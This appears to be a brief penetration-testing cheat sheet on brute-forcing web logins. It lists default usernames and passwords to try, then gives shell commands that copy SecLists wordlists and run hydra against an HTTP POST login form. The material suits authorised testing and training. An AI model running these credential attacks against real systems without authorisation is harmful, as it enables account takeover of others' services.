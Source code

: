 # brute forcing

- Try the following usernames

```shell
admin
root
<software-name> (e.g. cms)
```

- Try the following passwords

```shell
root
password
```

- Brute force using most common credentials

```shell
cp /usr/share/seclists/Usernames/top-usernames-shortlist.txt users.txt
cp /usr/share/seclists/Passwords/darkweb2017-top100.txt passwords.txt
hydra -f -L users.txt -P passwords.txt $ip http-post-form "/login:username=^USER^&password=^PASS^:error message."
```
